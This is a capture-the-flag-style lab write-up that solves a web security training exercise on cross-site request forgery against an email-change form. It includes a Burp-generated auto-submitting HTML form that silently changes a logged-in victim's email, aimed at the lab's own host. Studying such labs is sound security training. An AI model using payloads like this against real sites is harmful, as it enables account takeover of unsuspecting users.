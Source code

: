 # Lab: CSRF vulnerability with no defenses

 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 

# Step 1 Walk the application's email change functionality


Fist I login to the web app with the supplied account:

![image](https://user-images.githubusercontent.com/83407557/210661610-d5b3cd2d-246e-4f8e-a449-bff691d31ec2.png)

And Send a request to change my email to burp:

![image](https://user-images.githubusercontent.com/83407557/210661432-fef37f97-4b72-4c04-81ea-bf8869528ffa.png)

![image](https://user-images.githubusercontent.com/83407557/210661677-7d8dc92d-382f-4770-9012-dabf3da8cca1.png)

# Step 2 Craft CSRF POC

I then go into http history and find the POST request that was sent to change my email

![image](https://user-images.githubusercontent.com/83407557/210661900-1db814e9-5fa3-42c4-a079-80f57c50b09c.png)

Right clicking the request I go to engagement tools -> Generate CSRF POC:

![image](https://user-images.githubusercontent.com/83407557/210662190-ba25ab9c-da72-440b-af06-0119ac7a2f2d.png)

Under options I select include-auto-submit script, then click regenerate to add the auto-submit:

![image](https://user-images.githubusercontent.com/83407557/210663595-61cdaac9-a72c-4b9e-bcf4-cb895c9d7924.png)

Making the payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ade00ed0418d005c03fdb41001000b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hermh4cks&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


# Step 3 Add CSRF on my attack-server

I add the payload into the msg body of my /exploit page and click store:

![image](https://user-images.githubusercontent.com/83407557/210663908-a5d40f1b-4601-407f-abe7-84fa8e6f5d5f.png)


# Step 4 test that exploit is working

First I change my email back to something else:

![image](https://user-images.githubusercontent.com/83407557/210664008-a230abec-f3bc-4cf5-b91b-6120b3d302dd.png)

Clicking view exploit:

![image](https://user-images.githubusercontent.com/83407557/210664084-04edad1a-5db7-4436-b5df-206dda3de2fc.png)

I see that it changes my email again:

![image](https://user-images.githubusercontent.com/83407557/210664133-68108c80-a474-40a9-8db3-c4d28ca0d0a0.png)

# Step 4 Send exploit to victem:

![image](https://user-images.githubusercontent.com/83407557/210664201-664f4e9a-7004-4881-8c6d-05ea1425046b.png)

While I cannot see the outcome, as CSRF is one-way, I do see that the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/210664383-ea981df0-6461-447b-8801-c8cdc79b744e.png)



